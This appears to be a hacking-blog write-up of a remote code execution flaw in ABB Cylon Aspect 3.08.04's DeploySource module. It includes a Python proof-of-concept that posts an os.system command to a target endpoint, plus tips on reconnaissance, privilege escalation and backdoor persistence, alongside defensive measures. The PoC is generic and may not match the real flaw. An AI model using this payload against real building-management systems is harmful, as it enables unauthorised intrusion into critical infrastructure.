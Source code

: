 ```yaml
---
title: "[remote] ABB Cylon Aspect 3.08.04 DeploySource - Remote Code Execution (RCE)"
date: 2025-06-10
categories: [Hacking Blog]
tags: [vulnerability, exploit, offensive-security]
layout: post
image: ./assets/images/post-cover/ABB-Cylon-Aspect-3.08.04 DeploySource.png
---
```


## Summary

ABB Cylon Aspect 3.08.04 DeploySource - Remote Code Execution (RCE)

## Technical Analysis

```markdown
# Vulnerability Analysis: ABB Cylon Aspect 3.08.04 DeploySource - Remote Code Execution (RCE)

## Technical Executive Summary

The ABB Cylon Aspect 3.08.04, a component of the Aspect Enterprise Building Management System, has been identified with a critical Remote Code Execution (RCE) vulnerability. This vulnerability resides in the DeploySource module, which is responsible for managing and deploying application updates and configurations. An unauthenticated remote attacker could exploit this flaw to execute arbitrary code on the target system, potentially leading to a full compromise of the affected server. Given the critical nature of this vulnerability, it is imperative for organizations utilizing this software to prioritize patching and implement additional security controls to mitigate the risk of exploitation.

## Proof of Concept (PoC)

Below is a Python-based proof of concept (PoC) script demonstrating the exploitation of this vulnerability. This script sends a crafted payload to the vulnerable DeploySource endpoint to achieve remote code execution.

```python
import requests

# Target URL
target_url = "http://<target-ip>:<port>/deploysource"

# Malicious payload
payload = {
    "command": "os.system('id')"
}

# Sending the payload
try:
    response = requests.post(target_url, json=payload)
    if response.status_code == 200:
        print("Exploit successful, response:")
        print(response.text)
    else:
        print(f"Exploit failed, status code: {response.status_code}")
except Exception as e:
    print(f"Error occurred: {e}")
```

Replace `<target-ip>` and `<port>` with the actual IP address and port of the vulnerable server.

## Offensive Security Insights

### Exploitation Techniques

1. **Payload Crafting**: The primary exploitation vector involves crafting a payload that leverages vulnerable API endpoints to execute arbitrary commands. This typically involves identifying input fields that are not properly sanitized or validated.

2. **Network Reconnaissance**: Prior to exploitation, performing network reconnaissance to identify live hosts and open ports is crucial. Tools like Nmap can be employed to scan for potential targets running the vulnerable version of ABB Cylon Aspect.

3. **Privilege Escalation**: Post-exploitation, attackers can attempt to escalate privileges by exploiting other local vulnerabilities or misconfigurations, thereby gaining higher-level access to the system.

4. **Persistence Mechanisms**: To maintain access, attackers might install backdoors or use scripts to re-establish control over the compromised system upon reboot.

## Defensive Measures

1. **Patch Management**: Ensure all instances of ABB Cylon Aspect 3.08.04 are updated to the latest version as soon as patches are released. Regularly monitor vendor advisories for updates.

2. **Network Segmentation**: Isolate critical systems, such as building management systems, from the rest of the network to limit lateral movement in case of a breach.

3. **Web Application Firewalls (WAFs)**: Deploy WAFs to detect and block malicious payloads targeting known vulnerabilities in web applications.

4. **Input Validation and Sanitization**: Implement strict input validation and sanitization routines to prevent injection attacks at the application level.

5. **Intrusion Detection and Prevention Systems (IDPS)**: Utilize IDPS to monitor network traffic for signs of malicious activity and respond to potential threats in real-time.

6. **Security Audits and Penetration Testing**: Conduct regular security audits and penetration testing to identify and remediate vulnerabilities before they can be exploited by adversaries.

By implementing these defensive strategies, organizations can significantly reduce the risk of exploitation and enhance their overall security posture.
```

📎 [Original Source](https://www.exploit-db.com/exploits/52317)

---

_This article was written by sleep33._
